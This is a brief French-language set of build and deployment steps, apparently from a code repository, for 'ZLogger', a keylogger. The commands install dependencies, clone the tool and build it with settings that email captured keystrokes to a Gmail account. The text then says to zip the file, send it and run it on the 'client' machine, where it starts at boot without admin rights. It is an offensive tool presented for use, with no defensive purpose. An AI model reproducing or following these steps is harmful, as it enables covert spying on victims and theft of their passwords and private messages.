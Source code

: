 # bloc3 création
apt install git -y

apt install wine -y

pip install pyscreenshot pyxhook && sudo apt install python3-xlib -y

sudo git clone ......

cd ZLogger

cd bash install.sh


sudo python zlogger.py -w -i 30 -e email@gmail.com --password monMDPGMAIL -o mickaKeyLogger

zipper le fichier et envoyer, puis lancer le fichier qui est dans le répertoire "dist" sur le poste client.


    Logs keys pressed on keyboard
    Sends reports by email.
    Starts with system startup.
    Works with Linux and Windows.
    Does not require root or admin privlages.

